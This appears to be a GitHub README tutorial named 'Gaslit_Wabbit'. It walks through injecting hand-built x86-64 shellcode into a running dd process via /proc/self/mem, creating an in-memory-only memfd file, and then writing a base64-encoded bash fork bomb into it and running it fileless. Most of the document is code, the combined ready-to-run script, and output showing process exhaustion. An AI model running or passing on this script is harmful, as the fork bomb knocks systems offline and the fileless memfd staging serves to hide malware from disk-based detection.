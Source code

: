 # Gaslit_Wabbit
1978 wabbit fork bomb running in Ram

first we get the syscall numbers for
- memfd_create
- pause
- exit

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep memfd_create
```
- ```#define __NR_memfd_create 319```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep pause
```
- ```#define __NR_pause 34```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep exit
```
- ```#define __NR_exit 60```



next we create some assembly that will
- duplicate FDs: 10 and 11
```asm
xor rax, rax
xor rdi, rdi
mov di, 10
mov rax, 0x20
syscall
xor rax, rax
inc rdi
mov rax, 0x20
syscall
```
- create an in-memory-only file (syscall 319)
```asm
push 0x78436f73
mov rdi, rsp
mov rsi, 0
mov rax, 319
syscall
```
- suspend the process (syscall 34)
```asm
mov rax, 34
syscall
```
- exit process (syscall 60) (should never be reached)
```asm
xor rax, rax
add rax, 60
xor rdi, rdi
syscall
```
putting it all together:

```asm
BITS 64
global _start
section .text
_start:
        xor rax, rax
        xor rdi, rdi
        mov di, 10
        mov rax, 0x20
        syscall
        xor rax, rax
        inc rdi
        mov rax, 0x20
        syscall
memfd_create:
        push 0x78436f73
        mov rdi, rsp
        mov rsi, 0
        mov rax, 319
        syscall
pause:
        mov rax, 34
        syscall
exit:
        xor rax, rax
        add rax, 60
        xor rdi, rdi
        syscall
```

next, we nasm the assembly code and do a hexdump,

```shell
nasm memfd.asm
```
```shell
hexdump -v -e '"\\""x" 1/1 "%02x" ""' memfd
```
- ```\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05```

next, we find the PID addresses for DD fclose,

```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd"
```
```shell
555555554000-555555556000 r--p 00000000 ca:01 262762      /usr/bin/dd
555555556000-555555564000 r-xp 00002000 ca:01 262762      /usr/bin/dd
555555564000-555555569000 r--p 00010000 ca:01 262762      /usr/bin/dd
555555569000-55555556a000 r--p 00014000 ca:01 262762      /usr/bin/dd
55555556a000-55555556b000 rw-p 00015000 ca:01 262762      /usr/bin/dd
```

let's remove what we don't need,
```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12
```
- ```55555555400```

```shell
objdump -Mintel -d `which dd` | grep fclose
```
```shell
0000000000002170 <fclose@plt>:
    67e6:   e8 85 b9 ff ff     call   2170 <fclose@plt>
    681b:   e9 50 b9 ff ff     jmp    2170 <fclose@plt>
```
let's remove what we don't need,

```shell
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
```
- ```681b```

we see the PID addresses are,
- ```0x555555554000```
- ```0x681b```

now, let's put that into some variables,

```bash
pid_address_1=$(setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12)
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
```

now, let's create some shellcode that uses the hexdump and PID addresses to create an in-memory-only file,
```shell
echo -n -e "\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05" | setarch x86_64 -R dd of=/proc/self/mem bs=1 seek=$(( 0x$pid_address_1 + 0x$pid_address_2 )) conv=notrunc 10<&0 11<&1 & sudo ls -al /proc/$(pidof dd)/fd/
```

now, let's create a wabbit virus that we can encode to the in-memory-only file,

```bash
#!/bin/bash
:(){ :|:& };:
```

```shell
chmod +x wabbit.sh
```

```shell
cp wabbit.sh wabbit
```
now let's base64 encode it,
```shell
cat wabbit | base64 -w0 ; echo
```
- ```IyEvYmluL2Jhc2gKOigpeyA6fDomIH07Ogo=```

then, transfer it to the in-memory-only file,

```shell
echo "IyEvYmluL2Jhc2gKOigpeyA6fDomIH07Ogo=" | base64 -d > /proc/`pidof dd`/fd/3
```

and finally, run the in-memory-only file,
```shell
/proc/`pidof dd`/fd/3 -a
```

putting it all together we have,

```bash
#!/bin/bash
pid_address_1=$(setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12)
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
echo -n -e "\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05" | setarch x86_64 -R dd of=/proc/self/mem bs=1 seek=$(( 0x$pid_address_1 + 0x$pid_address_2 )) conv=notrunc 10<&0 11<&1 & sudo ls -al /proc/$(pidof dd)/fd/
echo "IyEvYmluL2Jhc2gKOigpeyA6fDomIH07Ogo=" | base64 -d > /proc/`pidof dd`/fd/3
/proc/`pidof dd`/fd/3 -a
```

and running it, we have,

```shell
sudo chmod +x gaslit_wabbit.sh
```
```shell
sudo ./gaslit_wabbit.sh
```
```
dr-x------ 2 admin admin  0 Mar  3 19:15 .
dr-xr-xr-x 9 admin admin  0 Mar  3 19:15 ..
lr-x------ 1 admin admin 64 Mar  3 19:15 0 -> 'pipe:[15084]'
lrwx------ 1 admin admin 64 Mar  3 19:15 1 -> /dev/pts/0
lr-x------ 1 admin admin 64 Mar  3 19:15 10 -> 'pipe:[15084]'
lrwx------ 1 admin admin 64 Mar  3 19:15 11 -> /dev/pts/0
lrwx------ 1 admin admin 64 Mar  3 19:15 2 -> /dev/pts/0
lrwx------ 1 admin admin 64 Mar  3 19:15 3 -> '/memfd:soCx (deleted)'
```
```
proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
/proc/949/fd/3: fork: retry: Resource temporarily unavailable
```